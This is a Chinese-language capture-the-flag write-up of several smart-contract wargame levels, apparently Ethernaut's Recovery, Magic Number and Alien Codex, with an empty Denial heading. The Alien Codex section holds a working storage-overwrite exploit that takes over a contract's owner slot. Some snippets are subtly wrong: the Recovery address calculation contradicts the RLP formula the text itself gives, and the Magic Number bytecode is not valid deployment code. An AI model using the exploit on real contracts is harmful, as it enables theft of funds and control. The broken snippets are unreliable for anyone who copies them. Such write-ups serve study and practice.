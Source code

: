 - 存储布局一致性在使用 delegatecall 时至关重要。
- 避免外部调用未受信任的合约地址。

## 17. Recovery ✅ [Medium]

这关考察的是通过区块链上公开的数据恢复丢失的合约和资金：
在 Ethereum 中，合约地址是通过以下公式计算的：address = keccak256(rlp.encode([sender, nonce]))[12:]
sender 是创建合约的地址。nonce 是该地址的交易计数。

思路：
找回地址即可：
```js
const recoveryAddress = "RECOVERY_CONTRACT_ADDRESS"; // 替换为实际地址
const nonce = 1; // Recovery 合约的 nonce，假设这是它的第一次部署
const tokenAddress = web3.utils.toChecksumAddress(
  "0x" + web3.utils.keccak256(web3.eth.abi.encodeParameters(
    ["address", "uint256"],
    [recoveryAddress, nonce]
  )).slice(26)
);

console.log("Token Address:", tokenAddress);
```

## 18. Magic Number ✅ [Easy]

这关考察的是极简合约的构造以及如何通过 EVM 字节码直接部署合约:
这个关卡的核心目标是部署一个符合以下条件的合约：

代码总长度不超过 10 字节。
返回任意有效的结果（不一定是 42）。
```assembly
PUSH1 0xff   // 推送值 255
PUSH1 0x00   // 返回数据的存储位置
RETURN
```

## 19. Alien Codex ✅ [Medium]

思路很简单：利用codex.length--使下标溢出然后ethereum会认为此时的codex分布在整个2^256-1的slot中（Ethereum 认为数组 codex 的元素范围扩展到整个存储的所有槽位 (0 ~ 2^256-1)）此时我们计算出slot0（Owner）的索引i，然后修改存储在slot的owner
实现很复杂：
```js
// 计算目标索引
const hash1 = web3.utils.keccak256(web3.eth.abi.encodeParameter("uint256", 1));
const targetIndex = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(hash1));
// 修改 slot 0
const attackerBytes32 = web3.utils.padLeft(attacker, 64); // 将攻击者地址转换为 bytes32
alienCodex.methods.revise(targetIndex.toString(), attackerBytes32).send({ from: attacker });
```

## 20. Denial ✅ [Easy]

